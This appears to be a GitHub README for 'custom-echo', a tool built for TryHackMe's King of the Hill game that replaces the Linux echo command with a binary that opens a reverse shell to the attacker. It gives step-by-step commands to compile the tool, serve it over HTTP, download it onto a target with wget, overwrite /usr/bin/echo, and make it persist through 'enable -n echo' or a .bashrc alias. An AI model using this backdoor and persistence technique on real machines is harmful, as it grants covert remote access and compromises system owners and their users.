

# custom-echo for KOTH | TryHackMe

--------------
> custom-echo, what does it do:<br />

1. This custom-echo will give you a rev-shell on a custom port you'll set, whenever somebody run echo command on the machine in which you planted your custom-echo you'll get a rev-shell on the port you'll set! :shipit:<br />

---------------
##### To Use It:<br />

  - first, let's clone the repo:<br />
     
     ```
     git clone https://github.com/hoodietramp/custom-echo
     ```

  - now let's `cd` into it:<br />

     ```
     cd custom-echo
     ```

  - now, we gotta compile it first (:<br />

     ```
     gcc -o custom-echo custom-echo.c
     ```

  - give it executable permissions:<br />
     
     ```
     chmod +x custom-echo
     ```
     
  - Now transfer it to the machine, in which you wanna use it:<br />

     - [ ] start a python server in your machine `python3 -m http.server 80`

     - [ ] on the koth machine, do `wget <your ip>/custom-echo; chmod +x custom-echo`

     - [ ] we are good to go... now let's change the echo on the machine with our custom-echo
          
           * `cp custom-echo /usr/bin/echo`

     - [ ] but it'll still not work, because echo is a shell-built-in, means it doesn't require any external binary to work in linux<br />
            
            So, to make it work, we can add this to the end of `.bashrc` file or We can disable shell-built-in echo by

             ```
             enable -n echo
             ```
            
            Or Run this:
              
              ```
              echo "alias echo='/usr/bin/echo'" >> ~/.bashrc
              ```
     - [x] Now we're ready to get our rev-shell. Let's test it < 3

-----------------
##### Testing custom-echo:<br />




------------------

Thanks To Holmes < 3
